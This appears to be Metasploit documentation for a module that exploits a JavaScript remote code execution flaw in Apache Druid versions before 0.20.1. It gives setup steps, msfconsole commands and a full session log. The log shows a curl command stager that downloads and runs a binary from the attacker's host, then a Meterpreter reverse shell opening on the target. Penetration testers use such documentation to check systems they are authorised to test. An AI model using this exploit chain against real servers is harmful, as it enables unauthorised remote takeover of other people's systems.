 
## Vulnerable Application
Apache Druid
### Description

This module post json type request to Apache Druid with "config" is set to true, 
and execute command in "function" with Javascript to exploit.
But it seem that some payloads can't execute successfully and no reason,
such as cmd/unix/reverse_python


It has been fixed in Apache Druid 0.20.1

This module has been tested successfully against bebelow:

Apache Druid 0.15.1 Debian 9.11 (Linux 3.10.0-957.21.3.el7.x86_64)

Apache Druid 0.16.0-iap8  Ubuntu 16.04 (Linux 3.10.0-957.27.2.el7.x86_64)

Apache Druid 0.17.1 CentOS 8.2.2004 (Core) (Linux 4.18.0-193.28.1.el8_2.x86_64)

Apache Druid 0.18.0-iap3 Debian 9.12 (Linux 4.19.0-0.bpo.8-amd64)

Apache Druid 0.19.0-iap7 Ubuntu 18.04 (Linux 4.14.193-149.317.amzn2.x86_64)

Apache Druid 0.20.0-iap4.1 Ubuntu 18.04 (Linux 4.19.112+)

Apache Druid 0.21.0-iap3 CentOS 7.9.2009 (Linux 3.10.0-1160.15.2.el7.x86_64)

### Setup

Just use docker,but any other version you need to find by yourself

docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/apache_druid_js_rce`
1. Do: `set rhosts <ip>`
1. Do: `set lhost <ip>`
1. Do: `set lport/srvport <ip>` if necessary
1. Do: `run`
1. You should get a shell.

## Targets

### 0 (Linux Dropper)

This uses a Linux dropper to execute code.

### 1 (Unix Command)

This executes a Unix command.

## Options

### CHECKCMD

You can set a customize command to check and get command exec result respond.
Default is "id"


## Scenarios

### Apache Druid 0.20.0-iap4.1 on SaltStack Salt 3002.2 on Ubuntu 18.04 (Linux 4.19.112+)

```
msf6 > use exploit/linux/http/apache_druid_js_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > set rhosts 10.100.70.2
rhosts => 10.100.70.2
msf6 exploit(linux/http/apache_druid_js_rce) > set rport 8888
rport => 8888
msf6 exploit(linux/http/apache_druid_js_rce) > set verbose true
verbose => true
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CHECKCMD  id               yes       The command to execute as checking vulnerability
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.100.70.2      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     8888             yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   VHOST                      no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.100.70.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (dropper)


msf6 exploit(linux/http/apache_druid_js_rce) > run

[*] Started reverse TCP handler on 10.100.70.1:4444
[*] Using URL: http://0.0.0.0:8080/NCId0EEi0G9
[*] Local IP: http://10.100.70.1:8080/NCId0EEi0G9
[*] Generated command stager: ["curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU"]
[*] Executing command /bin/bash`@~-c`@~curl -so /tmp/cdAZJjlU http://10.100.70.1:8080/NCId0EEi0G9;chmod +x /tmp/cdAZJjlU;/tmp/cdAZJjlU;rm -f /tmp/cdAZJjlU ......
[*] Client 10.100.70.2 (curl/7.58.0) requested /NCId0EEi0G9
[*] Sending payload to 10.100.70.2 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 10.100.70.2
[*] Meterpreter session 2 opened (10.100.70.1:4444 -> 10.100.70.2:59996) at 2021-03-31 10:56:03 +0800
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 10.100.70.2
OS           : Ubuntu 18.04 (Linux 4.19.112+)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```